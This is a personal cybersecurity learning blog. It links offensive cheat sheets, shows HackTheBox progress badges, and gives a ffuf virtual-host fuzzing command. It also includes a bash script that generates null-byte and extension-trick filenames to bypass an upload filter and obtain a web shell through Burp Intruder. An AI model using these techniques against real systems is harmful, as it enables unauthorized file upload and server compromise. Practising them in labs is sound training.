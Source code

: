 #### Welcome to cyberelic

This site focuses on my cyber security journey.

I am a dedicated cybersecurity enthusiast with a passion for safeguarding digital landscapes in an ever-evolving threat landscape. I thrive on the challenge of protecting organizations and individuals from cyber threats. Whether it's implementing robust security measures, conducting penetration testing, or staying up-to-date with the latest vulnerabilities, my mission is to fortify digital ecosystems and ensure data integrity.

---

Here is a small list of the cheat sheets i've been consistantly referring back to:

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

- [Hacktricks](https://book.hacktricks.xyz/)

- [WADcoms](https://wadcoms.github.io/)

---

`ffuf /w wordlist.txt:FUZZ -u http://<target>:<port> -H 'Host: FUZZ.<targetip>.local`

---

here is a simple script that i used while trying to bypass an upload filter.


```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
        for ext in '.php' '.phps' '.phar'; do
           echo "shell$char$ext.jpg" >> wordlist.txt
           echo "shell$ext$char.jpg" >> wordlist.txt
           echo "shell.jpg$char$ext" >> wordlist.txt
           echo "shell.jpg$ext$char" >> wordlist.txt
       done
done
```

Use Burp and throw this into intruder to get a shell.

---
#### Hackthebox Academy:

I've been progressing through the Pentester Path and im about %60 finished and its truly a good way to learn the neccessary tools and techniques. below are some of the badges awarded from the HTB academy.

[Arachnoid](https://academy.hackthebox.com/achievement/badge/2fd5f36b-9e12-11ee-bfb6-bea50ffe6cb4) - For completing the Web Attacks module

[Inject with Caution](https://academy.hackthebox.com/achievement/badge/876a4881-9001-11ee-bfb6-bea50ffe6cb4) - For completing the Command Injections module 

---

<script src="https://tryhackme.com/badge/101635"></script>
